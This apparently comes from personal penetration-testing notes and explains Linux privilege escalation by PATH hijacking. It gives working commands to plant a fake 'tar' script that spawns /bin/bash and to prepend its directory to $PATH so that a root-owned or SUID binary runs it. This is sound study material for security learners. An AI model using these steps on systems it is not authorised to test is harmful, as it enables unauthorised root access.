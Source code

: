# A service or a program that is run or is owned by root
When a service or a program is accessing resources as root or running and **SUID** program that has root privileges.


## PATH hijacking
If one cannot see a full path either in a service or a program, they can overwrite or append
to the `$PATH` environment variable.

**The example below is for binaries, but can also be used for services or cronjobs**
1. Find the program that is being referenced
    ```bash
    ltrace ./binary
    <SNIP>
    system("tar -cvf /root/file")
    <SNIP>
    ```
    `system` calls tar without full path, therefore we can add our own `tar` file to `$PATH`.

2. Make our own `tar` script, add payload and append to `$PATH`
    ```bash
    cd /dev/shm
    export PATH=/dev/shm:$PATH
    echo -e "#!/bin/bash\n/bin/bash" > tar
    chmod +x tar
    ```
3. Run the program again
    ```
    ./binary
    ```
